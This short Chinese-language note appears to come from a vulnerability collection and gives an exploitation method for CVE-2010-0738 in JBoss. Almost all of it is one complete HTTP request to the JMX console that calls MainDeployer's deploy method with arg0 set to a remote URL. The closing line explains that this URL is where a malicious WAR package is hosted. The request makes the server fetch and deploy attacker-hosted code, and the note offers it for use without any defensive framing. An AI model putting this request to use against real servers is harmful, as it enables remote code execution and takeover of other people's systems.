

CVE-2010-0738
--

### 利用方法


```
HEAD /jmx-console/HtmlAdaptor?action=invokeOpByName&name=jboss.system:service=MainDeployer&methodName=deploy&argType=java.lang.String&arg0=http://xxx/a.war HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.81 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close


```


其中arg0为恶意war包的线上地址。